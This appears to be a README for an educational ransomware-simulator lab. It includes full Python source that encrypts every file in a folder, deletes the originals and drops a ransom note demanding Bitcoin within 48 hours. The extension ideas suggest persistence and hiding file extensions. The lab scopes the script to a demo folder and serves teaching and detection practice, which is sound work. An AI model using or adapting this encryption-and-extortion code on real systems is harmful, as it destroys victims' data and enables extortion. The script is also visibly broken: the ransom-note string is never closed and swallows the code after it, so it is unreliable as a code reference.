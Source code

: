 # Webdeves Ethical Hacking Project
# Ransomware Simulator Project (Ethical Hacking Lab)

## Objective
Simulate a ransomware attack in a controlled environment to understand how file encryption and ransom messages work. 

## Project Structure
```
ransomware_simulator/
│
├── encryptor.py            # Script to encrypt files and drop ransom note
├── decryptor.py            # Script to decrypt files with a key
├── key.key                 # Generated encryption key
├── ransom_note.txt         # Template ransom message (used in script)
├── demo_files/             # Test files that will be encrypted
└── README.md               # Instructions and documentation
```

- Only run this in **virtual machines**.
- Use only the `demo_files/` folder with dummy/test files.
- Never target system folders or real documents.
- Understand the legal and ethical implications before testing.


## Getting Started

### Step 1: Setup Environment
- Python 3.7+
- Install dependencies:
```bash
pip install cryptography
```
- Create test files in `demo_files/` folder (e.g. `.txt`, `.docx`, `.jpg`)

### Step 2: Run Encryptor
```bash
python encryptor.py
```
This will:
- Encrypt all files in `demo_files/`
- Replace originals with `.enc` files
- Create a ransom note called `README.txt`

### Step 3: Decryption
You’ll use the `decryptor.py` script and the `key.key` file to recover the original files. This will simulate what happens when a victim "pays the ransom".



## decryptor.py (To be added)
You will load:
- Load the `key.key`
- Decrypt each `.enc` file in the folder
- Recreate the original files

## Learning Outcomes
- Understand how ransomware operates
- Learn file encryption/decryption using `cryptography`
- Explore defense mechanisms and detection strategies
- Discuss ethical and legal implications of malware simulation



## Extension Ideas
- Add a GUI popup with countdown timer
- Simulate file extension hiding
- Add basic persistence (autostart simulation)
- Build a basic ransomware detector script (blue team exercise)



##  Submission Checklist
- [ ] `encryptor.py` script completed
- [ ] `decryptor.py` script created
- [ ] Test run and screenshot of encrypted files
- [ ] Report (1 page): What you learned + detection methods



## Ethics Reminder
This project is for educational cybersecurity use only. Misusing this knowledge is illegal and unethical. Respect privacy, security, and laws at all times.

## encryptor.py

```Python
from cryptography.fernet import Fernet
import os, glob

# Create and store encryption key
key = Fernet.generate_key()
with open("key.key", "wb") as f:
    f.write(key)

fernet = Fernet(key)

# Folder containing files to simulate encryption
folder = "demo_files/"
os.makedirs(folder, exist_ok=True)

# Encrypt all files in folder
for filepath in glob.glob(folder + "*"):
    if filepath.endswith(".enc") or filepath.endswith("README.txt"):
        continue
    with open(filepath, "rb") as f:
        data = f.read()
    encrypted = fernet.encrypt(data)
    with open(filepath + ".enc", "wb") as f:
        f.write(encrypted)
    os.remove(filepath)

# Drop ransom note
ransom_note = """
--- YOUR FILES HAVE BEEN ENCRYPTED ---
To recover your data, send 1 BTC to the following address:
1A2b3C4d5E6f7G8h9I0j
Then contact us with proof of payment.
You have 48 hours before your files are lost forever.

python
with open(folder + "README.txt", "w") as f:
    f.write(ransom_note)

print("[+] Files encrypted. Ransom note dropped.")
```
